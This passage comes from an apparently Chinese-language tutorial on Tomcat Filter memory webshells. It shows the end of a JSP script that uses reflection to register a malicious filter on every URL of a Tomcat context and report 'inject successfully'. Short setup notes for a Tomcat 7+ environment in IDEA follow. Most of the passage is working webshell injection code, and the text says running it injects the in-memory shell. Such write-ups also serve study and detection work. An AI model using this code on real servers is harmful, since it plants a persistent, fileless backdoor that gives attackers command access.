 ```java
                        }
                        response.getWriter().println(outputStream.toString());
                    }
                }


            }

            @Override
            public void destroy() {
                Filter.super.destroy();
            }
        };
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(filterName);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(filterName);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
        hashMap.put(filterName,applicationFilterConfig);
        response.getWriter().println("inject successfully");
    }
%>
```



运行这个jsp马之后就成功注入了内存马：

![image-20211102174522551](Tomcat-Filter内存马.assets/image-20211102174522551.png)





# 环境

tomcat环境（版本需要为7.x以上）

因为关键的代码都在tomcat里面，IDEA直接找不到tomcat里面的代码，需要进行导入。

在`project structure`里面找到libraries，点加号，Java：
